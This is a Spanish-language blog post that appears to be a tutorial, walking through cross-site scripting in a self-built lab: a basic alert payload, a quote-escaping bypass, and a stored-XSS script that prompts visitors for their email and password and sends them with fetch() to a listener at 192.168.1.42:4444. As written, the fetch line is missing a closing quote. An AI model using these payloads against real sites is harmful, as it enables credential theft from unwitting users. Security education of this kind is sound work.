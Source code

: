```yaml
---
title: Vunerabilidad XSS
excerpt: Explotación XSS
publishDate: 'Oct 02 2025'
tags:
  - xss
seo:
  image:
    src: '/xss.png'
    alt: Imagen creada con Chat GPT
---
```


![xss](/xss.png)

***Resumen***: La vulnerabilidad consiste en inyectar código malicioso en una web, pudiendo así almacenarlo para que se ejecute cada cvez que el usuario visite una parte de la página, como un comentario o un post en concreto.
En este artículo, vamos a ver la forma básica y la almacenada.

***Nota***: Este laboratorio ha sido creado por y para este post con chatGPT, no utilices esta vulenrabilidad con sitios que no tengas permiso.

***Procedimiento***: Una vez tenemos comprobación de que la web es vulnerable, procedemos a inyectar código malicioso para bien robar credenciales o infectar una máquina.

## XSS Básica

El laboratorio es una web vulnerable, donde vamos a inyectar un código para que nos muestre una alerta en javascript. Para acceder a dicha web solo tienes que decirle a chatGPT que te lo cree y desplegarlo en Docker.

[![laboratorio_xss](/Laboratorio_xss.png)](/Laboratorio_xss.png)

Inyectaremos el siguiente código que debe mostrarnos una alerta por pantalla:

```bash
<script>alert(1)</script>
````
[![crear_alerta](/Crear_alerta.png)](/Crear_alerta.png)

Al entrar en el mensaje tendremos la ejecución del script.

[![1_xss](/1_xss.png)](/1_xss.png)

Con esto ya tenemos XSS básico y una comprobación de que la web es vulnerable.

## XSS almacenado

Vamos a inyectar un código en otro comentario donde nos pida las credenciales y nos las envíe a nuestra máquina donde estaremos escuchando con nuestro querido nc.

```bash
<script>
  var correo = prompt("Introduce tu correo: ");
  var password = prompt("Introduce tu contraseña: ");
  fetch("http://192.168.1.42:4444/ + correo + password);
</script>
````

[![nc_xss](/nc_xss.png)](/nc_xss.png)

Ahora al visitar o recargar el comentario, nbos pedirá las credenciales.

[![pide_xss](/pide_xss.png)](/pide_xss.png)

Y vemos como llegan las credenciales.

[![credenciales_xss](/credenciales_xss.png)](/credenciales_xss.png)

## Bypass restricciones

Pero puede que nuestro payload no funcione, bien porque la web está protegida o bien por que determinada palabra esté censurada. Una manera de poder solucionarlo es encerrar la etiqueta anterior entre comillas, así:

```bash
 "><script>alert(1)</script>
 ````
Si existen palabras protegidas que nos impidan ejecutar el payload, solo tenemos que usar otro que facimente encontraremos por internet. [eventos_xss](https://github.com/payloadbox/xss-payload-list)

[![eventos_xss](/eventos_xss.png)](/eventos_xss.png)











